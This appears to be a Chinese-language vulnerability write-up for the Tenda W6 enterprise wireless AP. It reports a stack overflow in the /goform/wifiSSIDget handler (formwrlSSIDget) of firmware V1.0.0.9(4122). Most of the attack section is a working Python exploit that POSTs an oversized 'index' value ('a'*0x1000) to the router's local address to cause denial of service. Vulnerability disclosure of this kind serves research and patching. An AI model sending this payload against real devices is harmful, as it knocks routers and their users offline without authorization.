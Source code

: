 # Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/wifiSSIDget存在栈溢出漏洞，攻击者可利用此漏洞通过index参数导致拒绝服务 (DoS)。

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/wifiSSIDget

formwrlSSIDget()函数

![image-20220708154237741](pic/image-20220708154237741.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/wifiSSIDget"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x1000

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [演示过程请看视频](./video/1.mp4)